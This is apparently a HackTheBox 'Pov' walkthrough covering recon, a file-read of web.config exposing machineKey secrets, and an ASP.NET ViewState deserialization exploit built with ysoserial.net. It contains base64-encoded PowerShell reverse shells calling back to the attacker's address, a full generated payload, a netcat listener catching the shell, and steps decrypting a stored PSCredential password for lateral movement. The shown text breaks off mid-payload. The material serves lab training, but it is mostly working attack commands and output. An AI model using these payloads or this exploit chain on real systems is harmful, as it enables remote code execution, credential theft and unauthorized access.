

# 📻 Pov HackTheBox Walkthrough!!

<figure><figcaption></figcaption></figure>

Add IP to the hosts.

```
nano /etc/hosts
```

<figure><figcaption></figcaption></figure>

**NMAP RESULT**&#x20;

```
┌──(Batman㉿GC)-[~]
└─$ nmap -A 10.10.11.251 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-28 13:37 IST
Nmap scan report for pov.htb (10.10.11.251)
Host is up (0.20s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: pov.htb
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.21 seconds
```

Let search virtual host by using **Gobuster**.

```

┌──(Batman㉿GC)-[~]
└─$ gobuster vhost -u http://pov.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain -r

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://pov.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Progress: 28 / 19967 (0.14%)[ERROR] Get "http://dev.pov.htb/portfolio/": dial tcp: lookup dev.pov.htb on 10.211.55.1:53: no such host
Progress: 19966 / 19967 (99.99%)
===============================================================
Finished
```

We found a new result, Lets add **dev.pov.htb** to hosts.

**GAINING SHELL ACCESS**

<figure><figcaption></figcaption></figure>

We can find **Download CV**, Let’s try to intercept the request in Burp Suite.

```
.....

__EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=DY%2FikU7FyXJZCW0op4Kz6Bgqd4o%2FFtEfEsiowrOTlRKwk96TfCKJt6cwtTy82KRl93H2SNf4FCvmzZuhMaKfKMCbzZg%3D&__VIEWSTATEGENERATOR=8E0F0FA3&__EVENTVALIDATION=eGOIJz%2BJA4RbAfYNdIjP%2FXmYDtUaz97UabMUsYu%2Bg8ppRuevK%2FWEufVY9E0M8KqssT57LzrVSlgu%2FzTmjoojoiS270xt9sBSLasZ2CSk2sh4uF3oBk9hMWE%2FILb9D20b1kQDEA%3D%3D&file=cv.pdf
```

Now we can try by replacing ./web.config

```
┌──(Batman㉿GC)-[~]
└─$ cat _web.config 
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>
```

Download [ysoserial.net](https://github.com/pwntester/ysoserial.net) and run it in a **powershell**.

```
$ ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4ANQAyACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"

fYxZV%2FbiRZyDL4ezFqGj6bYbqE6XS3HvaMTHXFxj8AW7a5CB0Dj4ZsWvFvnonqiIE7oOmWl%2B9DXCdrFuaNrwRn9cvQ1eKdyp43jPWkIVg5M6FzHMbuHrkE%2FVe0wFVmOTXL16W0DV7KoaFhsfDd96ky9PSxkORwOW07eHC8JJ%2Fh8RpLAxToCjrvenSonnACV%2Bi5sM3HHKgWS6utRe3v3qrkEAlqn8S7QAkiXFscTM3Ss473xdkiqezH9yf%2BkfflAZ7Rafp5ENFA8%2B5aouMqP4aF204KrrOsyl6coFW6co%2FhOOpSMwyimP7jm8baDSslwEGR3ReeYutcFJ%2BHB2AT0NGTJ1Njn3E0Hxfwn7QWM4IINRBxM8xWpLcJVpU%2Fva9dhscPDqGRIRYlM4SbjijfeVYei4Z91lU40oHWDcYVn%2Bgu7UD9j6hdibMUwlmMD8GnrvYmFoWCfakS70eN%2FA6mTtuWAVxII30m9Eddl8cPzHt2LnlHVcajYfZm074m4LR6oPMJ9S1C13NP6u%2BtkBTTHsbyVjaDwOh%2Ftf%2FmrMcxF4OM9RLiPST%2FBFUglpAIyo2GGnalm2Hm7zbfZCSDDUtdaxvv9D4%2B7TEE4VYusZzd%2BYjrjlyPccST%2Byy6g%2FOGBcBPxJBOiXTOn9MBRqXl%2B5VPCJ0HWTGMHF0OgxNxJAebfKsnYHZotWA2P7hVeCmoiFSzeentBueVaLdU%2BjHGhSVjbsQS4olTIhTZhpxi206CiuQ76VH1pSBLpt%2BqcwiAkVFPfuNY3FAxLQ%2FTbeTgEs%2BLiofuWYprzorGhgVE6hovUzspbdgK4hoUXvt0SdS%2FvMGI09en0FpE26dIPANioFO8VGimzfQ1432LpMxKjhdrkav%2BioQVpDbaFoMdwQ%2BVXjfX6hwgMr8V1kyqSpgf5TbZ9Hhz%2F2IQ7sgEhtGqCko8ZfQA4YUJ5yCV4L%2FA3D4BN4vwGNtoPrqGLTUdzWdMzvqCPeoaNjxDS5loGTmlYAWH4sv0mqfZ2%2BRD1eTtD0TK5KInl6N56%2Bqmm2y%2F1qNqP52TjRV49TKnksycs6LzhYjRK93iDKwDNRwYF3M1s0f5TnltGG5D50wutmXjgYKqvgYCbHpp%2F5YWADFjsHHIDvfEjJHJFfodeT2EsAl3Vqf41OUkjgdZWcbyQ%2BfTFAaq9Vu8Z9AdD6TVBKLA96QYequ6Ma%2BuALd0QQILLjWpydGRgUE2zoNUOrtOyeMBwsFSAO7xKfFBnoLqnrXoVUq3JOfY8lU4m77V11DpXR5%2Fg2J%2BbgzRouar%2F2Y4%2BvQcAz5ASbyrGENRv41KHdk9W6Xy%2FPDO8xzb2XNWGnKW1wqLmNurj6bd663%2BRSjbox5QHg0JoBX1eh%2FDTlbdw23zxVlLMikMpOX7P3VkgvamECMZIVhMY26NYAoUpEfNtG%2FsIjkeU7YUUjZHEe4E%2FBpjRQyF8CDaqYW9vkzfi4IScnWo6mraKZkd8cC%2BY8ieI3jIM2AWsvS53OvvpuOv5HprtOznYBS8RiqcSegWeDY%2FrYJndLsn1DNW%2FXPmnQ%2F6bVHtfXaknjBgXvtmp9YO5UxSoYzea%2BxKzuXd0rp6JqwMnUKj5h0SxisvvmYL5PNjuwBsrfPNI0ROXLXKm9v6jb%2BOtNIovnBMXHKUL0JvuoHaftmIjowL7fdEQhNYIQ1mOCF8wL5nf22HSdM1bHRa3Sif2PYB6Z9LqTeSlaxp%2B7pC9%2F68Awsz%2FJQ34vgrNmLT8dUwvtNJmiaLLTikzqEDyukkSmFqkcNWVVKdVoLgMyk8nMhGevRxNNJaC0fMfAv5J2%2FLewlU6MKmImoVDMztLtM84GBnn83Rsu6HVXL42ksEOyS5ieCW%2BMMgPvs5E9%2FShXze5nz%2Fq85MK8VvH9%2BkL1uwXtNqzAE1upnbAhgEGaG2wmBv3neVk%2F1dpEYiEI7Qo7sW63ARnZW%2FCCtQ0RD31Avm55bhkTD8BTSC%2FQBLVsttIlHRN27yqEDNz3vgEEOfq6LxY1gt730RCzmeaAORHYtyW4ADXVqDP7Sx7DhQ5PLXiJykQm2iprcpArcPpmY5j4j7KQtmKHCSpDdJ8OFVgM3BHfBc0HcWgh0P3KCvf6p%2FGrkniYylIbqXKTwa4Dz%2BYGk7rexsrtv6r7%2F%2B3rIljpY%2BjNgJDvSbwVVUafQjgmmJI%2B9jIMFfJRV0yv2GHtHlpy0tdNMazINubZt%2FAnJAyg5%2FSeP2qhGLKxuUIGCBf8EAB7aGFtVPu7bUNnXnaCqwyRA7jz0qizc0yDMy729w7liyXpKkQNozS4jg%2BwummFlMfAxpRHvxiNqv%2FsmT3ubjJWR%2BdsV%2F8Z0OOuxvx1s7xNem9Ol3WLlEbLNoICyMIAn8I5juZ4YLpwiDijN6OICd0y73VHNJK14BmhlSUb3KqFrHCOZA3OU2T7nIfRVeFY%2BR%2FqL4GCKcZzRKwst16lMvTHhw2xmo8IMIUMBr%2FDe4ADys%2BgOQ94ud60siNpS%2BqGPnv6gDXucB%2BB%2FrAmxUFAG6ZLAwD7swWzxSMs42ZrfYnVngmcoU%2B%2BGeRt18%2FkeEYit7eCXEXDuIX%2FZpXmwT%2Fb6NHfPExKXVe%2FXYCaW4CBqS1VE1aH75K2j2iZJ7WWk%2BwHJ9p1U1UMMWZY0XcXHAArnTGHC0MOHShYtSGlgDmtP%2FqgYlJ2sM0slDE04QZ3TuVHRrcxwilQszh3yMALfb5JOibBAMTkazwgdKuGmpeYd5bfcEZVAa41pLa7yTQRbJzeFJrs%2BVSevtHJAkWD166aB2aJxd%2BJVjVazsyV%2B4Fa%2FffLlqJ%2FhCkvlpvFStdkCXBd9Bl3s0L%2BJJPcqxSQE2D%2BtSIBERbak%2FCFtyTdH81z1OhT1KXYQ8z95vXcPO2tJkeTlPayqo5VAx4SWkQVAyQf7%2BSfZUOjKJB5SivqrU4JpKtFSTCXPUIKEXw8aCtdXYfV%2FvSUwD%2BHGcue0HfZMDyO9okuJ2jLoLGG8ZgOmo0kWwlAK9tLfru%2FOYFJ6%2BNWovmC74qcq0qOknlBAjUYpOjz0cIKOknpR5u7bF0gGhWUQe82pOhcaBqpr8Qn%2FLMcDS6ZXiZY77zRtFvvtMUd%2FSZDk0q48qxGnWshtlLJDqt1LgKXd4pT5y0Zj9MOdUIpxL2aynW%2B1O0dQbGc2wvutulfVbx%2BKRDf3FPsKFQwZCV04yqQ%2FmpKVqEoPpO6OMFF6JG004AJnjCq9y7EZ5uxeSCgk2kY3hF5%2Bk%2FrO%
```

The payload we received sent to **\_\_VIEWSTATE** using burpsuite and catch the reverse shell by using netcat listener.

```
...
__EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=fYxZV%2FbiRZyDL4ezFqGj6bYbqE6XS3HvaMTHXFxj8AW7a5CB0Dj4ZsWvFvnonqiIE7oOmWl%2B9DXCdrFuaNrwRn9cvQ1eKdyp43jPWkIVg5M6FzHMbuHrkE%2FVe0wFVmOTXL16W0DV7KoaFhsfDd96ky9PSxkORwOW07eHC8JJ%2Fh8RpLAxToCjrvenSonnACV%2Bi5sM3HHKgWS6utRe3v3qrkEAlqn8S7QAkiXFscTM3Ss473xdkiqezH9yf%2BkfflAZ7Rafp5ENFA8%2B5aouMqP4aF204KrrOsyl6coFW6co%2FhOOpSMwyimP7jm8baDSslwEGR3ReeYutcFJ%2BHB2AT0NGTJ1Njn3E0Hxfwn7QWM4IINRBxM8xWpLcJVpU%2Fva9dhscPDqGRIRYlM4SbjijfeVYei4Z91lU40oHWDcYVn%2Bgu7UD9j6hdibMUwlmMD8GnrvYmFoWCfakS70eN%2FA6mTtuWAVxII30m9Eddl8cPzHt2LnlHVcajYfZm074m4LR6oPMJ9S1C13NP6u%2BtkBTTHsbyVjaDwOh%2Ftf%2FmrMcxF4OM9RLiPST%2FBFUglpAIyo2GGnalm2Hm7zbfZCSDDUtdaxvv9D4%2B7TEE4VYusZzd%2BYjrjlyPccST%2Byy6g%2FOGBcBPxJBOiXTOn9MBRqXl%2B5VPCJ0HWTGMHF0OgxNxJAebfKsnYHZotWA2P7hVeCmoiFSzeentBueVaLdU%2BjHGhSVjbsQS4olTIhTZhpxi206CiuQ76VH1pSBLpt%2BqcwiAkVFPfuNY3FAxLQ%2FTbeTgEs%2BLiofuWYprzorGhgVE6hovUzspbdgK4hoUXvt0SdS%2FvMGI09en0FpE26dIPANioFO8VGimzfQ1432LpMxKjhdrkav%2BioQVpDbaFoMdwQ%2BVXjfX6hwgMr8V1kyqSpgf5TbZ9Hhz%2F2IQ7sgEhtGqCko8ZfQA4YUJ5yCV4L%2FA3D4BN4vwGNtoPrqGLTUdzWdMzvqCPeoaNjxDS5loGTmlYAWH4sv0mqfZ2%2BRD1eTtD0TK5KInl6N56%2Bqmm2y%2F1qNqP52TjRV49TKnksycs6LzhYjRK93iDKwDNRwYF3M1s0f5TnltGG5D50wutmXjgYKqvgYCbHpp%2F5YWADFjsHHIDvfEjJHJFfodeT2EsAl3Vqf41OUkjgdZWcbyQ%2BfTFAaq9Vu8Z9AdD6TVBKLA96QYequ6Ma%2BuALd0QQILLjWpydGRgUE2zoNUOrtOyeMBwsFSAO7xKfFBnoLqnrXoVUq3JOfY8lU4m77V11DpXR5%2Fg2J%2BbgzRouar%2F2Y4%2BvQcAz5ASbyrGENRv41KHdk9W6Xy%2FPDO8xzb2XNWGnKW1wqLmNurj6bd663%2BRSjbox5QHg0JoBX1eh%2FDTlbdw23zxVlLMikMpOX7P3VkgvamECMZIVhMY26NYAoUpEfNtG%2FsIjkeU7YUUjZHEe4E%2FBpjRQyF8CDaqYW9vkzfi4IScnWo6mraKZkd8cC%2BY8ieI3jIM2AWsvS53OvvpuOv5HprtOznYBS8RiqcSegWeDY%2FrYJndLsn1DNW%2FXPmnQ%2F6bVHtfXaknjBgXvtmp9YO5UxSoYzea%2BxKzuXd0rp6JqwMnUKj5h0SxisvvmYL5PNjuwBsrfPNI0ROXLXKm9v6jb%2BOtNIovnBMXHKUL0JvuoHaftmIjowL7fdEQhNYIQ1mOCF8wL5nf22HSdM1bHRa3Sif2PYB6Z9LqTeSlaxp%2B7pC9%2F68Awsz%2FJQ34vgrNmLT8dUwvtNJmiaLLTikzqEDyukkSmFqkcNWVVKdVoLgMyk8nMhGevRxNNJaC0fMfAv5J2%2FLewlU6MKmImoVDMztLtM84GBnn83Rsu6HVXL42ksEOyS5ieCW%2BMMgPvs5E9%2FShXze5nz%2Fq85MK8VvH9%2BkL1uwXtNqzAE1upnbAhgEGaG2wmBv3neVk%2F1dpEYiEI7Qo7sW63ARnZW%2FCCtQ0RD31Avm55bhkTD8BTSC%2FQBLVsttIlHRN27yqEDNz3vgEEOfq6LxY1gt730RCzmeaAORHYtyW4ADXVqDP7Sx7DhQ5PLXiJykQm2iprcpArcPpmY5j4j7KQtmKHCSpDdJ8OFVgM3BHfBc0HcWgh0P3KCvf6p%2FGrkniYylIbqXKTwa4Dz%2BYGk7rexsrtv6r7%2F%2B3rIljpY%2BjNgJDvSbwVVUafQjgmmJI%2B9jIMFfJRV0yv2GHtHlpy0tdNMazINubZt%2FAnJAyg5%2FSeP2qhGLKxuUIGCBf8EAB7aGFtVPu7bUNnXnaCqwyRA7jz0qizc0yDMy729w7liyXpKkQNozS4jg%2BwummFlMfAxpRHvxiNqv%2FsmT3ubjJWR%2BdsV%2F8Z0OOuxvx1s7xNem9Ol3WLlEbLNoICyMIAn8I5juZ4YLpwiDijN6OICd0y73VHNJK14BmhlSUb3KqFrHCOZA3OU2T7nIfRVeFY%2BR%2FqL4GCKcZzRKwst16lMvTHhw2xmo8IMIUMBr%2FDe4ADys%2BgOQ94ud60siNpS%2BqGPnv6gDXucB%2BB%2FrAmxUFAG6ZLAwD7swWzxSMs42ZrfYnVngmcoU%2B%2BGeRt18%2FkeEYit7eCXEXDuIX%2FZpXmwT%2Fb6NHfPExKXVe%2FXYCaW4CBqS1VE1aH75K2j2iZJ7WWk%2BwHJ9p1U1UMMWZY0XcXHAArnTGHC0MOHShYtSGlgDmtP%2FqgYlJ2sM0slDE04QZ3TuVHRrcxwilQszh3yMALfb5JOibBAMTkazwgdKuGmpeYd5bfcEZVAa41pLa7yTQRbJzeFJrs%2BVSevtHJAkWD166aB2aJxd%2BJVjVazsyV%2B4Fa%2FffLlqJ%2FhCkvlpvFStdkCXBd9Bl3s0L%2BJJPcqxSQE2D%2BtSIBERbak%2FCFtyTdH81z1OhT1KXYQ8z95vXcPO2tJkeTlPayqo5VAx4SWkQVAyQf7%2BSfZUOjKJB5SivqrU4JpKtFSTCXPUIKEXw8aCtdXYfV%2FvSUwD%2BHGcue0HfZMDyO9okuJ2jLoLGG8ZgOmo0kWwlAK9tLfru%2FOYFJ6%2BNWovmC74qcq0qOknlBAjUYpOjz0cIKOknpR5u7bF0gGhWUQe82pOhcaBqpr8Qn%2FLMcDS6ZXiZY77zRtFvvtMUd%2FSZDk0q48qxGnWshtlLJDqt1LgKXd4pT5y0Zj9MOdUIpxL2aynW%2B1O0dQbGc2wvutulfVbx%2BKRDf3FPsKFQwZCV04yqQ%2FmpKVqEoPpO6OMFF6JG004AJnjCq9y7EZ5uxeSCgk2kY3hF5%2Bk%2FrO%2FrA%2FrWTuO62QZ69BYBTi8i24MWCLIY4WyEEpiNOCkoLJN0z8wPdDtSYKvKHmkoRI7b4HAN2GnJygRE90AxUiKK9LIY1qQU%2F9%2FiajNhP6zodReAbdQmwY%2FQ306%2FBRNxmgDUAX7s3qe8%2FiwW60uq%2BfDZqj%2BQeAGsPt5RXOMvfuLUFvYJDpiw7D9zJjeDx6iphtibA%2BzWvHGiof9S9TmS5qMdXhSlUt%2FfebGn87fbMup02xPmZURaX5xPZT7HlDEPVCd6Uo%2B8wHskdWunGfVIy0ZC6j2C%2FKkZY%2Bq4dRX3Omm96GTu3pKCp2e%2BWg7%2FTD%2B%2Bq%2BzliYylyPvOTn74DyW0wHD%2BlHojq4wTOh6wfEJUXvoAe111jB2woYNThijw1zxHwsidnH7CorIO%2FO9WXbjMp0xPah96Aoujax0kVcps%2BcuABWNuNCkSApsKsREv8%2B4RTpDeZu837a23w%2FLC22jWFKuineExkNN%2FpyDGtGZ%2FFAFGbBagawzZlFlE5W5a2cV2eAOu%2Bp4pp7xHpU3%2FnOhV8jA1n3qymD%2BF5AgTHNR1Lj8FwkHm6sZ70p0PHZ9NLdoVXddLMC%2F7%2BWIc7rVacjhUE%2FOdVXwwklZ0jInpQvuwLpf7Lsor9Fd6irQwL3ejsFq1%2BCvaMlqp44RZryZrJ9954qrwUsDXrxPTrTBNvXElWMfC3U2GNhN8spAkLDzlNXkWa8TdGOp8Gtpfa4Nh2TA4ai3icx3btW3jJ%2B%2B%2B3FE1BqcSYE6XaTTJXGDUzJKKpQOpJsobZIzmkScSYzVWisJvGnuMLppWs59KSEDkl0WUBiNaWP6ZH3xHzr6AlbkR363RU8jjZc4WbPiqhwldgww%2B5uyMaQuAXvSVg2kPhJN0uCxO1quBEvQt9vsbrGoy7fZ38aJFro9kF9dKFZML3fWM4WlI%2BQ%2BLYQdob79p3eX9eTpGp6jKOoG2I%2BQ7oKNMfvnr4eEeN2qnVoP1A%2Bxj7YOhoazW%2FQ4nT3C8DrJBzqAiKNHtg982NPRyKHb5SW2ZQFR1S5441SOFHwo8KK%2FFIm7qFf7Ki5jivnLYNPXTf9j8BrZd2XAaSQ6b02OVvr%2Bw0xUsKtykBrlXrV39EKlTofIAXuU2f%2BTzLREQbSLsny7ETr7b2udZ5Xt2IBlwr9dAW2CgWo%2BitA1TkBIg2WYLnP7g2%2BS4fKmfNmJveyjGJiQsVIRuWvmOb5oicG%2B9VdH1KkG%2B9DYYVWQmKQgDi%2F42gDuEqNAkdjykUhZYa%2BThXa%2F7B02elVnrUFQKZxUX1WTPMB%2BR3Sb%2B7s%2Fya%2BfodmxDx0c1LUvEjBVEmJ5wZP9VUm44dUya8LZ0sxqaX4TrJhVRD4AXgNtkKoZI79Z%2BpMgrOuZTKXiObUMkrV6j08eWp0ip3vCdbLlIeIxhucFYq%2BzmmH%2F2q3whovLqfMM%2FER%2FoWxabrQbOA2zuDjasqMCGxOr8AQJvQps2mab2LTF7R2zimz7qPqAaOye32dRNYmUKBWj76J74p%2FBPbKDn%2BFvnLrcJW3wHwbYqHyxThRbYUb3N5f3M80Km%2BzYyOecY1hTXJ9OqvAyeGgLDkL8y7Mm85hmWA%2FMNEINAmt8t2lOQUYLDXvqT83YDkxonLcTKTAML1%2F0MIFdEkPZDQPNTs&__VIEWSTATEGENERATOR=8E0F0FA3&__EVENTVALIDATION=BpHai08CvGTdOG9JaoYotd%2BB4nQN3EJnNkdzIjKSg7fKBI3YCoCO4Lh21Zjdr182v2iR3kGFxGiMVyVTFayXU8LFnjv1icyAL9SwR5T4uPavm%2FY8ngjgAapD6r2d19%2BaKlm89g%3D%3D&file=cv.pdf
...
```

```
┌──(Batman㉿GC)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.52] from (UNKNOWN) [10.10.11.251] 58233

PS C:\windows\system32\inetsrv> whoami
pov\sfitz
PS C:\windows\system32\inetsrv>
```

**GAINING USER ACCESS**

We can find credentials of **alaading** in further enumeration.

```
PS C:\windows\system32\inetsrv> cd C:\users\sfitz\Documents
PS C:\users\sfitz\Documents> dir


    Directory: C:\users\sfitz\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/25/2023   2:26 PM           1838 connection.xml


PS C:\users\sfitz\Documents> type connection.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">alaading</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000cdfb54340c2929419cc739fe1a35bc88000000000200000000001066000000010000200000003b44db1dda743e1442e77627255768e65ae76e179107379a964fa8ff156cee21000000000e8000000002000020000000c0bd8a88cfd817ef9b7382f050190dae03b7c81add6b398b2d32fa5e5ade3eaa30000000a3d1e27f0b3c29dae1348e8adf92cb104ed1d95e39600486af909cf55e2ac0c239d4f671f79d80e425122845d4ae33b240000000b15cd305782edae7a3a75c7e8e3c7d43bc23eaae88fde733a28e1b9437d3766af01fdf6f2cf99d2a23e389326c786317447330113c5cfa25bc86fb0c6e1edda6</SS>
    </Props>
  </Obj>
</Objs>
```

We have to decode the password.

```
PS C:\Users\sfitz> echo 01000000d08c9ddf0115d1118c7a00c04fc297eb01000000cdfb54340c2929419cc739fe1a35bc88000000000200000000001066000000010000200000003b44db1dda743e1442e77627255768e65ae76e179107379a964fa8ff156cee21000000000e8000000002000020000000c0bd8a88cfd817ef9b7382f050190dae03b7c81add6b398b2d32fa5e5ade3eaa30000000a3d1e27f0b3c29dae1348e8adf92cb104ed1d95e39600486af909cf55e2ac0c239d4f671f79d80e425122845d4ae33b240000000b15cd305782edae7a3a75c7e8e3c7d43bc23eaae88fde733a28e1b9437d3766af01fdf6f2cf99d2a23e389326c786317447330113c5cfa25bc86fb0c6e1edda6 > test.txt
PS C:\Users\sfitz> $EncryptedString = Get-Content .\test.txt
PS C:\Users\sfitz> $SecureString = ConvertTo-SecureString $EncryptedString
PS C:\Users\sfitz> $Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString
PS C:\Users\sfitz> echo $Credential.GetNetworkCredential().password
f8gQ8fynP44ek1m3PS
```

We have to get User Alaading shell access using the following credentials, by using powershell #3 base64

```
$username = 'alaading'
$password = 'f8gQ8fynP44ek1m3'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
Invoke-Command -ComputerName localhost -Credential $credential -ScriptBlock {powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4ANQAyACIALAA0ADQANAA1ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQ